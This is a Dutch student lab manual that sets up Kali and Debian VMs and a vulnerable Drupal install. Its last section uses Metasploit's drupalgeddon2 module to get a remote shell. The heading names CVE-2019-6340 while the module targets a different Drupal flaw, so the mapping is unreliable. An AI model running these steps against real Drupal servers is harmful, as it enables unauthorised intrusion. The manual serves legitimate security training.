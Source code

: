 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powerhshell van de host machine:

  ```powershell
    ./vm-installation.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    #sudo apt-get install lsb-release gnupg
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

##TODO: rest modules downloaden

- Kies in de prompt voor debian buster (10) en mysql-5.7 als versie van mysql
- Na de installatie is drupal beschikbaar op `http://localhost:index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `drupal`
  - Database host: `localhost`
  - Database port: `3306`
  - Database driver: `mysql`
  - Database prefix: `drupal_`
  - Site name: `drupal`
  - Site email address: `drupal@localhost`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Activeer de module `RESTful Web Services` in de `Extend` pagina van Drupal
- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/html/index.html
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de remote host te in te stellen:

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set RHOSTS 192.168.56.x
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    sessions -i 1
    whoami
  ```
